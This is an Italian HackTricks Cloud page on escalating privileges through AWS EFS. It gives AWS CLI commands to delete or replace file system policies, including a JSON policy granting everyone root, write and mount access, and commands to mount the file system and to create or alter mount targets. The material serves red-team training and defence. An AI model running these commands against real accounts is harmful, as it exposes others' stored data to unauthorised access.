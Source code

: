 # AWS - EFS Privesc

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EFS

Maggiori **informazioni su EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Ricorda che per montare un EFS è necessario trovarsi in una sottorete in cui l'EFS è esposto e avere accesso ad esso (gruppi di sicurezza). Se ciò accade, di default sarai sempre in grado di montarlo, tuttavia, se è protetto da politiche IAM, è necessario avere le autorizzazioni extra menzionate qui per accedervi.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Con una di queste autorizzazioni, un attaccante può **cambiare la politica del file system** per **concederti l'accesso** ad esso, o semplicemente **eliminarlo** in modo che sia concesso l'accesso predefinito.

Per eliminare la politica:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Per cambiarlo:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Con questa autorizzazione, un attaccante sarà in grado di **montare l'EFS**. Se l'autorizzazione di scrittura non è concessa per impostazione predefinita a tutti coloro che possono montare l'EFS, avrà solo **accesso in lettura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Le autorizzazioni extra `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` possono essere utilizzate per **scrivere** all'interno del file system dopo che è stato montato e per **accedere** a quel file system **come root**.

**Impatto potenziale:** Escalation dei privilegi indiretta individuando informazioni sensibili nel file system.

### `elasticfilesystem:CreateMountTarget`

Se un attaccante si trova all'interno di una **sottorete** in cui **non esiste alcun mount target** dell'EFS, potrebbe semplicemente **crearne uno nella sua sottorete** con questo privilegio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potenziale impatto:** Privesc indiretto mediante la localizzazione di informazioni sensibili nel file system.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In uno scenario in cui un attaccante scopre che l'EFS ha un mount target nella sua sottorete ma **nessun security group permette il traffico**, potrebbe semplicemente **modificarlo modificando i security group selezionati**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potenziale Impatto:** Privesc indiretto mediante la localizzazione di informazioni sensibili nel file system.



<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
